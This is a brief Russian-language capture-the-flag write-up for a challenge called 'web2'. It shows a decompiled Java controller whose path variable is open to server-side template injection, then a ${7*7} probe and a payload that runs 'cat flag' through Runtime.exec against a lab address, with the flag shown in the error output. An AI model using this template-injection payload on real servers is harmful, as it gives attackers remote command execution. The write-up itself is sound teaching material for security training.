 # web2
При декомпиляции кода сервера можно обнаружить странный путь
```java
@GetMapping({"/doc/{document}"})
public void getDocument(@PathVariable String document) {
    System.out.println("This function is not ready yet");
}
```

Переменная document имеет уязвимость SSTI

_[http://192.168.12.13:8090/doc/__${7*7}__::x.](http://192.168.12.13:8090/doc/__${7*7}__::x.)_

> Error resolving template [doc/**49**]


_[http://192.168.12.13:8090/doc/__${new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("cat flag").getInputStream()).next()}__::x.](http://192.168.12.13:8090/doc/__$%7Bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec(%22cat%20flag%22).getInputStream()).next()%7D__::x.)_
> Error resolving template [doc/**nto{abobovichasdfas}**]
